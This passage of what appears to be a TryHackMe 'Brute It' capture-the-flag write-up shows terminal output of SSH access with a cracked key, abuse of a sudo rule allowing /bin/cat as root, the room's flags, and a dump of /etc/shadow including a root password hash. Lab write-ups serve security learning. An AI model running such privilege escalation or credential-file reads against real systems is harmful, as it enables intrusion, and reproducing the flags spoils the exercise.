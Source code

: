 ```
Session completed
```

```
kali@kali:~/CTFs/tryhackme/Brute It$ ssh -i id_rsa john@10.10.16.131
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov 14 20:08:33 UTC 2020

  System load:  0.16               Processes:           104
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 20%                IP address for eth0: 10.10.16.131
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$
```

```
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
```

```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

```
john@bruteit:~$ sudo /bin/cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
```